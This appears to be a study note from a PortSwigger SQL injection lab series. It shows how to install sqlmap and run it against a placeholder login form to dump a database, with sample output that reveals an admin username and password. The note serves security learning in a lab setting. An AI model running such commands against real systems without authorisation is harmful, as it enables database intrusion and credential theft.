

## SQLmap Tool

SQLmap is a powerful tool for automating SQL Injection attacks. It supports various databases and can perform a wide range of attacks.

### Using SQLmap

Here’s how to use SQLmap to automate SQL Injection attacks:

1. **Install SQLmap**:
   ```bash
   pip install sqlmap
   ```

2. **Run SQLmap**:
   ```bash
   sqlmap -u "http://example.com/login" --data="username=admin&password=password" --dump
   ```

### Full Command and Output

Here’s an example of running SQLmap and its output:

```bash
sqlmap -u "http://example.com/login" --data="username=admin&password=password" --dump

[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
...
[INFO] the back-end DBMS is Oracle
[INFO] fetching tables for database: 'users'
[INFO] retrieved: 'users'
[INFO] fetching columns for table: 'users'
[INFO] retrieved: 'id', 'username', 'password'
[INFO] fetching entries for table: 'users'
[INFO] retrieved: '1', 'admin', 'password'
```

### Mermaid Diagram for SQLmap Attack



---
<!-- nav -->
[[09-Manual SQL Injection Attack|Manual SQL Injection Attack]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/00-Overview|Overview]] | [[11-Scripted SQL Injection Exploit|Scripted SQL Injection Exploit]]
